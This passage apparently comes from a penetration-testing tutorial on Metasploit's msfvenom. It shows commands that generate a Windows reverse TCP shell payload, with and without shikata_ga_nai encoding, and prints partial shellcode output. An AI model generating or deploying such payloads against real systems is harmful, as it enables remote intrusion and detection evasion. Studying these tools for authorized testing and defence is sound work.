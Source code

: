 After 2015, updates to these scripts have combined them within the `msfvenom` tool, which takes care of payload generation and Encoding. We will be talking about `msfvenom` in detail later on. Below is an example of what payload generation would look like with today's `msfvenom`:

### **Generating Payload - Without Encoding**

```shell-session
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .

<SNIP>
```

We should now look at the first line of the `$buf` and see how it changes when applying an encoder like `shikata_ga_nai`.

### **Generating Payload - With Encoding (Shikata Ga Nai)**

```shell-session
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"

<SNIP>
```

### **Shikata Ga Nai Encoding**
